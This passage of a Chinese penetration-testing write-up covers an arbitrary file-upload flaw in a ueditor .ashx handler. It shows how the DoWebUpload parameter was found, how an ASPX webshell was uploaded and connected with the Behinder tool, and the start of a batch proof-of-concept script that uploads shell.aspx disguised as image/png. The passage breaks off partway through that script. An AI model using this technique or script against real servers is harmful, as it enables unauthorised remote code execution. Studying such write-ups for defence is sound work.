 ueditor组件也有一个ashx文件，看着文件名字应该就是用来处理文件上传功能的  
  
我们访问一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUMULI8zm64NrH1pNBpf6yJoEEcFnlSstyFYXfO8gOQGoSSSzPEhLeU0Ns3NZju6QNST8NcFiaficdQ/640?wx_fmt=png&from=appmsg "")  
  
给我返回了这个消息，那么我们可以理解为这个文件应该是要传递一个参数的，但是参数是什么，我们目前还不知道  
  
我爆破了一下参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUMULI8zm64NrH1pNBpf6yJ3ib8ZMEiamad7Djt6rIppLgFPV4AbpuHxLIZneBicGt7laU16uunkr7LQ/640?wx_fmt=png&from=appmsg "")  
  
依旧是接口错误  
  
难道到手的文件上传getshell（bushi就要没了吗？  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x3 查看前端源码**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUMULI8zm64NrH1pNBpf6yJvXZ9k2m3F32icNan810uxywLQEWFnicqcjTicAQMLZZkiaAqfoGM9pTDLA/640?wx_fmt=png&from=appmsg "")  
  
查看了一下这个js源码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUMULI8zm64NrH1pNBpf6yJKoZeM7SEDR0axpwuH4qV8EC9sRACc1DibNyvGIZs5kjxia5NRMBctrWw/640?wx_fmt=png&from=appmsg "")  
  
一搜索就搜到了我那个文件名  
  
那么就是说可以有文件删除和文件上传两个选择，传入DoWebUpload或者DoDelete参数即可  
  
那么我们选择上传一个木马文件试试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUMULI8zm64NrH1pNBpf6yJTh6yjRZzaAiaiafL21DFnH65U1YGXicXXVZghOmT6wWYrafQ69Z3B13YQ/640?wx_fmt=png&from=appmsg "")  
  
直接就上传成功了冰蝎连接试试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUMULI8zm64NrH1pNBpf6yJZHo37EzTbaJibzyf17QFJ8j8VyGxLRcGibCq52ibsYq3O7rG8Ffz2UQZw/640?wx_fmt=png&from=appmsg "")  
  
直接就是getshell成功了  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 批量脚本验证**  
  
```
import requests
import os
os.environ["http_proxy"] = "http://127.0.0.1:7890"
os.environ["https_proxy"] = "http://127.0.0.1:7890"
def poc(url=""):
# 目标URL
    url = url+'/api/FileUploadApi.ashx?method=DoWebUpload'
    files = {
        'file': ('shell.aspx', """

        """, 'image/png')
    }

    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'null',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36',
```